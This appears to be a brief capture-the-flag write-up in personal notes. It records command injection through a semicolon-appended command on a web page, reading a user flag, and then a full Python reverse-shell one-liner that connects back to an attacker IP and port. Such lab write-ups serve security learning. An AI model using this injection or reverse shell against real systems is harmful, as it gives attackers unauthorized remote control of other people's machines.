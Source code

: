 we are redirected to welcome.php
![[Pasted image 20210930015803.png]]
trying to do ;COMMAND and we get code execution
![[Pasted image 20210930015838.png]]
![[Pasted image 20210930015859.png]]
noulis user
doing ;cat
![[Pasted image 20210930015956.png]]
#userflag  51d236438b333970dbba7dc3089be33b
using 
export RHOST="10.10.17.185";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
python reverse shell and we are in 

